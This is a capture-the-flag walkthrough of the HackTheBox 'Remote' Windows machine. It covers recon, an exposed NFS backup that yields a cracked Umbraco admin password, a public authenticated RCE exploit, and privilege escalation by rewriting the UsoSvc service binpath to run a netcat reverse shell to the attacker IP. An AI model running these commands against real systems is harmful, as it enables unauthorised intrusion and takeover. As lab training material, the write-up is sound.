

# HackTheBox – Remote

- Write-Up Author: [Calvin Lai](http://security.calvinlai.com)

## **Question:**
> Remote

## Background

Remote is a Windows machine from HackTheBox, that is focusing on the CVE exploitation technique, for training your ethical hacking skills and penetration testing skills. 

According to the nmap result, a website is found that installed a vulnerable version of Umbraco CMS and an **mountd** nfs service is enabled. It can be exploited after we find the credentials from an exposed NFS share. A login credential is found at a file that saves in this NFS share, the credential can be used to log into the Umbraco CMS. An authenticated Umbraco CMS exploitation is found to gain initial access. 

Based on the result of the [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS), there is a possible local privilege escalation vector on a full access service named UsoSvc. Modifying the binpath of the service return the reverse shell with administrator privilege.

130n@calvinlai.com

Target Machine: 10.10.10.180

Attacker Machine: 10.10.14.8

## Write up
### 1. Service Reconnaissance:

- Quick Pre-searching:

	

	```
	nmap -Pn -p- -T5 --min-rate=1000 10.10.10.180 -oG fkclai.nmap
	```

- Details Analysis:

	```
	root@kclai: ~/Documents/ctf/htb/windows/12_Remote# nmap -p $(grep -Eo '[0-9]{1,5}/open' fkclai.nmap | cut -d '/' -f 1 | tr -s '\n' ',') -sC -sV 10.10.10.192 -o nmap-result.txt 
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-06 17:49 IST
	Nmap scan report for 10.10.10.180
	Host is up (0.21s latency).
	PORT      STATE SERVICE       VERSION
	21/tcp    open  ftp           Microsoft ftpd
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst:
	|_  SYST: Windows_NT
	80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-title: Home - Acme Widgets
	111/tcp   open  rpcbind       2-4 (RPC #100000)
	| rpcinfo:
	|   program version    port/proto  service
	|   100000  2,3,4        111/tcp   rpcbind
	|   100000  2,3,4        111/tcp6  rpcbind
	|   100000  2,3,4        111/udp   rpcbind
	|   100000  2,3,4        111/udp6  rpcbind
	|   100003  2,3         2049/udp   nfs
	|   100003  2,3         2049/udp6  nfs
	|   100003  2,3,4       2049/tcp   nfs
	|   100003  2,3,4       2049/tcp6  nfs
	|   100005  1,2,3       2049/tcp   mountd
	|   100005  1,2,3       2049/tcp6  mountd
	|   100005  1,2,3       2049/udp   mountd
	|   100005  1,2,3       2049/udp6  mountd
	|   100021  1,2,3,4     2049/tcp   nlockmgr
	|   100021  1,2,3,4     2049/tcp6  nlockmgr
	|   100021  1,2,3,4     2049/udp   nlockmgr
	|   100021  1,2,3,4     2049/udp6  nlockmgr
	|   100024  1           2049/tcp   status
	|   100024  1           2049/tcp6  status
	|   100024  1           2049/udp   status
	|_  100024  1           2049/udp6  status
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds?
	2049/tcp  open  mountd        1-3 (RPC #100005)
	5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-server-header: Microsoft-HTTPAPI/2.0
	|_http-title: Not Found
	47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-server-header: Microsoft-HTTPAPI/2.0
	|_http-title: Not Found
	49664/tcp open  msrpc         Microsoft Windows RPC
	49665/tcp open  msrpc         Microsoft Windows RPC
	49666/tcp open  msrpc         Microsoft Windows RPC
	49667/tcp open  msrpc         Microsoft Windows RPC
	49678/tcp open  msrpc         Microsoft Windows RPC
	49679/tcp open  msrpc         Microsoft Windows RPC
	49680/tcp open  msrpc         Microsoft Windows RPC
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
	Host script results:
	|_clock-skew: 1m09s
	| smb2-security-mode:
	|   2.02:
	|_    Message signing enabled but not required
	| smb2-time:
	|   date: 2020-09-06T12:21:19
	|_  start_date: N/A
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 190.81 seconds
	```

***
### 2. Enumeration:

- Enumeration strategies
	According to the nmap result, the following interesting ports are found for further investigation  
	1. FTP  (21)
	2. Website (80)
	3. NFS (2049)

- FTP - 21

	Using the credentials anonymous/anonymous to log in to the FTP service successful, but nothing can be found or download from this account.

	

- Website - 80

	

	Going to the website and nothing interesting items can be found. Using the gobuster to check any hidden folder/subdirectory, a list of interesting 

	gobuster dir --url=http://10.10.10.180/ -- wordlist=/usr/share/wordlists/dirb/common.txt

	```
	 _|. _ _  _  _  _ _|_    v0.3.9
	(_||| _) (/_(_|| (_| )
	Extensions:  | HTTP method: GET | Suffixes: php, asp, aspx, jsp, js, do, action, html, json, yml, yaml, xml, cfg, bak, txt, md, sql, zip, tar.gz, tgz | Threads: 10 | Wordlist size: 4614 | Request count: 4614
	Error Log: /opt/dirsearch/logs/errors-20-09-06_17-53-02.log
	Target: http://10.10.10.180
	Output File: /opt/dirsearch/reports/10.10.10.180/20-09-06_17-53-02
	[17:53:02] Starting:
	[17:53:08] 200 -    7KB - /
	[17:53:18] 200 -    5KB - /about-us
	[17:53:25] 200 -    5KB - /blog
	[17:53:25] 200 -    5KB - /Blog
	[17:53:34] 200 -    8KB - /contact
	[17:53:34] 200 -    8KB - /Contact
	[17:53:56] 200 -    7KB - /home
	[17:53:56] 200 -    7KB - /Home
	[17:54:00] 302 -  126B  - /install  ->  /umbraco/
	[17:54:01] 200 -    3KB - /intranet
	[17:54:10] 500 -    3KB - /master
	[17:54:21] 200 -    7KB - /people
	[17:54:21] 200 -    7KB - /People
	[17:54:23] 200 -    3KB - /person
	[17:54:28] 500 -    3KB - /product
	[17:54:28] 200 -    5KB - /products
	[17:54:28] 200 -    5KB - /Products
	[17:54:55] 200 -    4KB - /umbraco
	```

	An administrative page is found, we cannot log into the system using some default accounts such as admin/admin. Move to next for further checking. 

	

- NFS - 2049

	Using **showmounttool** to check which NFS share is accessible by who

	

	The **site_backups** is available to mount and is accessible to everyone, let’s mount it and further enumerate.

	

	

	Check the folder one by one and found that a file named **mbraco.sdf** inside the folder **/App_Data** which contains credentials at the top of the file.

	```
	strings Umbraco.sdf | head
	Administratoradmindefaulten-US
	Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
	Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
	adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
	adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
	```

	Crack the password which SHA1 hash **b8be16afba8c314ad33d812f22a04991b90e2aaa** using an online hash [decrypting](https://md5decrypt.net/en/Sha1/#answer) service. Finally, get the credentials user id: **admin@htb.local** and password **baconandcheese**

	

***
### 3. Initial low privilege access:

- Let login to Umbraco CMS with the credentials found admin@htb.local / baconandcheese.

	

	

- Just checked the version is Umbraco 7.12.4, google any vulunerability found at the exploit DB.

	

- This version suffers from an authenticated remote code execution vulnerability. Download the [exploit](https://www.exploit-db.com/exploits/46153) and modify the login details as below.

	```
	...
	login = "admin@htb.local";
	password="baconandcheese";
	host = "http://10.10.10.180";
	...
	```

- In order to get the reversed TCP shell,  the payload is changed to download a netcat 64 bits Windows version.
	
	

- Next, stand up a listener on port 80 and run the exploit.
	
	

- Change the payload again to start the reversed TCP shell to my Kali machine

	

- Start the listening port at my Kali machine, the reverse shell is returned.

	

- The user flag can be found in the C:\Users\Public folder. 

	

***
### 4. Privilege Escalation:

- Start from gathering the system information  

	

	```
	whoami /priv
	```

	

	```
	systeminfo
	```

- Result of the [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe), discover possible local privilege escalation vectors, shows the full access of a service named as **UsoSvC**

	```
	[+] Modifiable Services
    [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    UsoSvc: AllAccess, Start
    ```

- Because of the full access to **UsoSvc** service, we can modify the **binpath** of the service and pop us a reverse shell.

	```
	sc.exe stop UsoSvc
	sc config UsoSvc binpath= "C:\windows\temp\nc.exe -nv 10.10.14.6 1235 -e C:\WINDOWS\System32\cmd.exe"
	sc.exe qc usosvc
	```

	

	

***
### 5. Recommendation:

Several known vulnerability is found on this box that makes us can finish the game easily. It is told us that system patching is the most important preventive action to defect cyber attack.

***
### 6. Reference Link

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe


